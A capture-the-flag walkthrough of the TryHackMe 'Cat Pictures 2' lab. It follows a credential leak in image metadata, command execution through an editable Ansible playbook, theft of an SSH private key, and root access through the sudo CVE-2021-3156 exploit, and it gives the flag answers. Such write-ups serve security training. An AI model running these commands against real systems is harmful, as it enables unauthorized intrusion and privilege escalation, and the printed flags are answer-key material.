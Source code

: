 # [Cat Pictures 2](https://tryhackme.com/room/catpictures2)

> Now with more Cat Pictures!

## Scanning

scan the target

```
nmap -A -T4 10.10.242.208
```

we have a huge of information here (22,80,222,3000,8080)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/feb2bd3a-4dda-47ab-a7de-475dd8cf7fb6)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5e27774a-d861-45cd-81f9-6ff7c2675c6d)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/78409cf6-feb0-446c-8657-650238e77379)

## HTTP

explore the webserver on port 80, we have an ablums

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bf345fb0-88cf-491d-ba75-e7b0be9f9012)

check the robots.txt

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1ef16d46-e8f3-4de1-9b16-7f2cab61c9d2)

on login panel, we know that's Lyche 3.1.1

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/709b050e-7bdf-4081-987a-37424dda9e32)

click on ablums, we have some cat images

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8cf3b3b0-1bfa-4a1e-bfd4-148d99d53c36)

we have a nginx webserver on port 8080

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b12eb582-5c88-4124-8b6d-257b2c01ace2)

on port 3000, i see a Gitea version 1.17.3

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9a53d313-bf59-48a4-af9f-4ee13fa0f9c8)

click on explore/user, it already have an user `samarium`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c168284c-7abb-4ecd-a5b8-68680fac4f18)

## Enumeration

i found a descript on first picture `note to self: strip metadata`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8dc91eae-9d5e-482d-a891-fa35ce7ff5e4)

download and check its metadata

```
exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3af1cd8d-73ae-4521-8a9c-d9a107667350)

The Title header has a link to a text file on port 8080

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9625573f-9e45-491e-83d5-c41c60a819df)

follow the link, i have a credential

```
gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

login gitea server with that information

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8e6d0e17-dcd3-4665-8a29-c79a7a08e773)

check on ansible repo

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3d5cea37-989f-41fe-ae98-389e33bc406d)

| Flag | flag1.txt |
| --- | --- |
| Answer | 10d916eaea54bb5ebe36b59538146bb5 |

check the playbook.yml, i found something maybe interest

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/271b9c1f-7736-4401-8c83-c13d849209a1)

it runs the `whoami` command as the user `bismuth`

as we remember, there is an Ansible runner present on port 1337

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a531890c-bd02-4531-af1b-884599446618)

i can click on `Run Ansible Playbook` to execute the playbook command and see its log

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/216a39e8-309c-4bba-8041-b261ff943c99)

## Exploitation

return the repo, i see that we can edit the `playbook.yml` on gitea

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7e5629b7-9657-4826-9f65-6296ac05fc29)

```
ls -la
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d9e6b1cc-3516-48ed-a81e-83c1ab6dcdaa)

```
cat flag2.txt
```

| Flag | user.txt |
| --- | --- |
| Answer | 5e2cafbbf180351702651c09cd797920 |

to get into the system, instead of using reverse shell, i think i will leverage ssh in the scan before

```
cat .ssh/id_rsa
```

get the private key of `bismuth`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/fce8e59c-7cd5-4a5d-8665-95531bffa707)

removing `"`, `,` and the spaces with cyberchef or with can do yourself

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/362af291-8710-499d-ad8e-ddb065c1fc79)

```
vi id_rsa
chmod 600 id_rsa
ssh -i id_rsa bismuth@10.10.242.208
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c72653fa-e80a-4c9d-9c1e-bac43aa3a573)

## Privilege Escalation

check the sudo version

```
sudo --version
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f119c3b7-b093-4db0-aa40-abf2c9fd863c)

there is a cve-2021-3156 for it

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/6c2b22af-2c09-4efb-8ae7-8ffd6d54640c)

clone and transfer to the target via scp

```
git clone https://github.com/CptGibbon/CVE-2021-3156
scp -i id_rsa CVE-2021-3156/exploit.c bismuth@10.10.97.70:/home/bismuth/exploit.c
scp -i id_rsa CVE-2021-3156/shellcode.c bismuth@10.10.97.70:/home/bismuth/shellcode.c
scp -i id_rsa CVE-2021-3156/Makefile bismuth@10.10.97.70:/home/bismuth/Makefile
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/01088266-ed44-46d2-96ba-fc1d1babf14d)

on target machine

```
ls
make
./exploit
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/58062ba9-3c2e-4828-9459-e0f7d37d0422)

there you go

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bdfa26ef-6919-4c86-868e-917723c9cd85)

| Flag | flag3.txt |
| --- | --- |
| Answer | 6d2a9f8f8174e86e27d565087a28a971 |
